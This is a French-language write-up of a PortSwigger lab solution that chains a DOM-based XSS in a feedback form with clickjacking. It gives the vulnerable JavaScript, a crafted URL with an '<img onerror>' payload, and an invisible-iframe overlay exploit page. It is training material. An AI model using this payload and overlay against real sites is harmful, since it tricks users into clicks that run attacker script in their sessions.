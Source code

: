 # Lab

https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

## Solution

Il y a une DOM XSS dans la fonctionnalité de feedback.

```js
document.getElementById("feedbackForm").addEventListener("submit", function(e) {
    submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
    e.preventDefault();
});

function submitFeedback(method, path, encoding, personal, data) {
    var XHR = new XMLHttpRequest();
    XHR.open(method, path);
    if (personal) {
        XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
    } else {
        XHR.addEventListener("load", displayFeedbackMessage());
    }
    if (encoding === "multipart/form-data") {
        XHR.send(data)
    } else {
        var params = new URLSearchParams(data);
        XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        XHR.send(params.toString())
    }
}

function displayFeedbackMessage(name) {
    return function() {
        var feedbackResult = document.getElementById("feedbackResult");
        if (this.status === 200) {
            feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
            feedbackForm.reset();
        } else {
            feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
        }
    }
}
```

On peux injecter dans le DOM via la fonction `displayFeedbackMessage` en passant un nom dans le paramètre `name`.

`https://0a92006e04cbe1fc8283fcaa007a00d7.web-security-academy.net/feedback?name=%3Cimg+src=x+onerror=print()%3E&email=email@email.com&subject=lol&message=lol`

Le payload de name en clair : `<img src=x onerror=print()>`


```html
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.0001;
		z-index: 2;
	}
	div {
		position:absolute;
		top:418px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0a92006e04cbe1fc8283fcaa007a00d7.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```